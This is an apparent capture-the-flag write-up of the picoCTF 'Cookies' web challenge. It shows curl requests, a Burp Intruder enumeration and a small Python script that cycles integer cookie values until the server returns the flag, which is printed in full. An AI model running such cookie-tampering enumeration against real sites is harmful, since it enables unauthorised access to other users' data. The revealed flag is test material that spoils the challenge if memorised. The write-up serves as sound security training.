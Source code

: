 # picoCTF Cookies

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:17781/


after checking out the site, I see that after entering a cookie name the weppapp changes your browser's cookie value based on output. I can see this using curl from the origional request of a known existing cookie, the snickerdoodle:

```bash
└─$ curl 'http://mercury.picoctf.net:17781/check' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://mercury.picoctf.net:17781/' -H 'Connection: keep-alive' -H 'Cookie: name=0' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0'|grep '<strong>Title</strong>'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1779  100  1779    0     0  22361      0 --:--:-- --:--:-- --:--:-- 22518
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
                                                                                            
```

increasing the browser-cookie value by one I can change what cookie I am seeing on the site:

```bash
curl 'http://mercury.picoctf.net:17781/check' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://mercury.picoctf.net:17781/' -H 'Connection: keep-alive' -H 'Cookie: name=1' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0'|grep '<p style="text-align:center; font-size:30px;"><b>'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1780  100  1780    0     0  25578      0 --:--:-- --:--:-- --:--:-- 25797
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>

```


Seeing what is going on I am able to make a burp intruder attack that changes the cookie value, then reviewing the response length, one stands out over the rest, and it also happens to be the flag:

![image](https://user-images.githubusercontent.com/83407557/148654389-12679aba-6b7b-42d1-a77a-58fe3c3895dc.png)


## Python

Still trying to get my python to work on this one, it crashes due to a redirect issue, however using grep on the output, it does actually solve this lab before crashing. Still something to work on in the future. Anythin over around 20 requests breaks it.

```python
#!/usr/bin/env python3

import requests
import re

count = 0
while (count < 20):   
    count = count + 1
    cookies = {
    'name': str(count)
    }
    headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
	'Accept-Language': 'en-US,en;q=0.5',
	'Referer': 'http://mercury.picoctf.net:17781/',
	'Connection': 'keep-alive',
	'Upgrade-Insecure-Requests': '1',
	'Cache-Control': 'max-age=0',
    }
    res = requests.get('http://mercury.picoctf.net:17781/check', headers=headers, cookies=cookies)
    response_cookie = re.search('picoCTF{', res.text)
    print(response_cookie, res.text)
```

Then running it in bash I can grep for the flag....not perfect... but functional

```bash
─$ python3 test.py|grep picoCTF                                                                               1 ⨯
<re.Match object; span=(1005, 1013), match='picoCTF{'> <!DOCTYPE html>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>

```
